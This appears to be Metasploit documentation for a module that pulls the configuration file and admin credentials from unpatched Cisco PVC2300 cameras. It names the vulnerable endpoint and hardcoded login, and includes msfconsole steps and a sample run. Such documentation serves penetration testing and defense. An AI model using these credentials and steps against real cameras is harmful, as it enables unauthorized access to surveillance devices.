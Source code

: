 ## Vulnerable Application
This module exploits an information disclosure vulnerability in Cisco PVC2300 cameras in order to download the configuration file
containing the admin credentials for the web interface.

The module first performs a basic check to see if the target is likely Cisco PVC2300. If so, the module attempts to obtain a sessionID
via an HTTP GET request to the vulnerable /oamp/System.xml endpoint using the `login` action and the hardcoded credentials `L1_admin:L1_51`.

If a session ID is obtained, the module uses it in another HTTP GET request to /oamp/System.xml that uses the `downloadConfigurationFile`
action in an attempt to download the configuration file.

The configuration file, if obtained, will be encdoded using base64 with a non-standard alphabet. In order to decode it,
the module first translates the encoded configuration file from the default base64 alphabet to the custom alphabet.
Then the configuration file is decoded using regular base64 and subsequently stored in the `loot` folder.

Finally, the module attempts to extract the admin credentials to the web interface from the decoded configuration file.

No known solution was made available for this vulnerability and no CVE has been published.
It is therefore likely that most (if not all) Cisco PVC2300 cameras are affected.

This module was successfully tested against several Cisco PVC2300 cameras.

## Options
No non-default options are configured.

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/cisco_pvc2300_download_config`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios
### Cisco PVC2300
```
Module options (auxiliary/gather/cisco_pvc_2300_info_disclosure):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.31.31.233    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf6 auxiliary(gather/cisco_pvc_2300_info_disclosure) > run
[*] Running module against 172.31.31.233

[*] The target may be vulnerable. Obtained sessionID 1122062985
[+] Successfully downloaded the configuration file
[*] Saving the full configuration file to /root/.msf4/loot/20220803124629_default_172.31.31.233_ciscopvc.config_489884.txt
[*] Obtained device name PVC2300 POE Video Camera
[+] Obtained the following admin credentials for the web interface from the configuration file:
[*] admin username: admin
[*] admin password: [obfuscated]
[*] Auxiliary module execution completed
```
